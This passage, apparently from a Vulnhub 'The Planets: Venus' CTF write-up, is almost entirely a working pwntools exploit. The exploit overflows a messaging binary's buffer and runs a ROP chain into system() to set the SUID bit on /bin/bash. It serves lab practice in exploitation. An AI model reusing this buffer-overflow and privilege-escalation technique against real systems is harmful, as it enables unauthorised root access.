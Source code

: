 ![Writeup-10.png](/assets/images/Vulnhub/The-Planets-Venus/Writeup-10.png)

```python
#!/usr/bin/env python3

from pwn import *

# context.log_level = 'DEBUG'
binary = context.binary = ELF('./venus_messaging.elf')

io = remote('localhost', 9080)
if args.REMOTE:
    libc = ELF('./libc.so.6')
    libc.address = 0x00007ffff7dee000
else:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    libc.address = 0x00007ffff7dc3000

offset = 1048
fd = 4
command = b'chmod u+s /bin/bash'

pop_rdi = next(binary.search(asm('pop rdi; ret')))
pop_rsi = next(libc.search(asm('pop rsi; ret')))
pop_rdx_rcx_rbx = next(libc.search(asm('pop rdx; pop rcx; pop rbx; ret')))

payload = flat(
    asm('nop') * offset,    # Padding to overflow buffer and reach return address
    p64(pop_rdi),           # Address of `pop rdi; ret`
    p64(fd),                # File descriptor (first argument for `recv`)
    p64(pop_rsi),           # Address of `pop rsi; ret`
    p64(binary.bss()),      # Address of `.bss` section (second argument for `recv`)
    p64(pop_rdx_rcx_rbx),   # Address of `pop rdx; pop rcx; pop rbx; ret`
    p64(len(command)),      # Length of the command (third argument for `recv`)
    p64(0),                 # Dummy value for `rcx`
    p64(0),                 # Dummy value for `rbx`
    p64(binary.plt.recv),   # Address of `recv` function
    p64(pop_rdi),           # Address of `pop rdi; ret`
    p64(binary.bss()),      # Address of `.bss` section (first argument for `system`)
    p64(libc.sym.system),   # Address of `system` function
)
 
io.sendlineafter(b'password:', b'loveandbeauty')
io.sendlineafter(b'processed:\n', payload)
sleep(0.1)
io.send(command)
io.stream()
```

